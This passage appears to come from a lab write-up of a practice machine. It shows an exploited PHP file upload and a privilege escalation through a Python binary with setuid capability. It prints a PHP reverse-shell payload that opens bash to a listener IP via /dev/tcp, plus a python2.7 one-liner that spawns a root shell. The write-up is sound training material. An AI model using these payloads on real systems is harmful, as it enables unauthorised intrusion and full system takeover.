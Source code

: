 - index.html
- cgi-bin/ (301)
- img/ (301)
- docs/ (301)
- upload.html
- upload.php
- css/ (301)
- protected/ (301)
- blocked/ (301)
- phpinfo.php

The scan for the port 8715 revealed nothing.

## Exploitation

Looking at the status codes `200` for the enumeration of port 8088, there are two files `upload.html` and `upload.php`. These are connected and are an upload capability. Uploading a file on the port 8088 website allows for the file to be accessed on a different web server. This web server is that running on port 8715. However, after testing txt and php files, php files are accessible while txt files need a password. Therefore, a php file can be used to create a reverse shell. Used the following php payload for the reverse shell &rarr;

```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.49.187/3002 0>&1'");
?>
```

A good resource for a reverse shell is [Pentest Monkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

## Privilege Escalation

The reverse shell, therefore is the `www-data` user on the machine. This gives the user flag. Checked sudo capabilities for the user, but there were none. Search for setuid binaries did not give any results as well.

The next checks are to be made for capabilities. Used `getcap -r / 2>/dev/null` to list files with capabilities set. The result includes the entry &rarr; `/usr/bin/python2.7 = cap_setuid+ep`.

Therefore, the following python code can be invoked using the said binary to elevate privileges &rarr; `/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'`. This gives the root flag.

---

# Lampiao

## Enumeration

Machine IP &rarr; `192.168.56.48`

### Network Scan
